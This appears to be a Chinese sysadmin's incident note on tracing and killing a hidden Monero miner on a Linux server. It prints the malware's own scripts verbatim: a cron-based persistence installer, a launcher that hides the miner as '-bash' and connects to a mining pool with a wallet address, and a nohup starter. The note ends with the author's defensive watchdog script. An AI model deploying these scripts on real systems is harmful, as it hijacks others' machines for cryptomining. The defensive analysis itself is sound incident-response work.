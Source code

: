 # 查杀挖矿机进程md

`[root@localhost]# top` 查看到md（占用cpu近100%）的PID 4444  
`[root@localhost]# cd /proc/4444`  
`[root@localhost]# ll`  
重点关注cmdline 和 exe,cwd 等  
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)  
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)  
`[root@localhost]# cat cmdline`   
这里看到如下字样，pool.minexmr.com 基本上跟挖矿有关了    
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`   
```
[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
```
 ll结果如下，h32,h64,md,mdx都是二进制文件  
 我们可以从a, run, x 三个文件里看到些端倪  
```
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```
`[root@localhost .z]# cat a `
```
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
`[root@localhost .z]# cat run`  
```
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
[root@localhost .z]# cat x
```
nohup ./a >>/dev/null &
```
-------------
 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它  
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```

